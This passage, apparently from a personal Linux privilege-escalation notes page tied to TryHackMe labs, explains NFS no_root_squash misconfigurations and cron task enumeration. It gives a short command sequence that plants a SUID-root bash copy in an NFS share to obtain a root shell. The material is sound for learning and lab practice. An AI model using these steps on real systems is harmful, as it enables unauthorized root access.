 <div class="row row-cols-md-2"><div>

To avoid copying and pasting information too much, you will have to read these pages for more information.

* [NFS protocol](/_it/networking/protocols/index.md#-nfs---2049-tcp)
* [NFS notes](/_cybersecurity/exploitation/services/index.md#nfs---2049-tcp)

To summarize, locally, you can use this command to find NFS shares.

```bash
# see NFS exports
$ cat /etc/exports
```
</div><div>

You will find an exploitable NFS misconfiguration when the option `no_root_squash` is set for a share. Root squashing map any local user to the user "nobody". If disabled, then the root user on the local machine will have root privilege inside the share.

```bash
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## Cron tasks/jobs

[![startup](../../_badges/thm-p/startup.svg)](https://tryhackme.com/room/startup)

<div class="row row-cols-md-2"><div>

Cron is the name given to automated tasks on Linux.

```bash
# tasks of the current user
$ crontab -l
# list every system-wide cron task
$ ls -la /etc/cron*
```

⚠️ It's worth noting that system-wide cron tasks and user-created cron tasks are not stored in the same place. Only root can browse/list other users' cron tasks.

```bash
# tasks of the user 'root'
$ sudo ls /var/spool/cron/crontabs/root
# tasks of the user 'root'
$ sudo crontab -l -u root
```
</div><div>
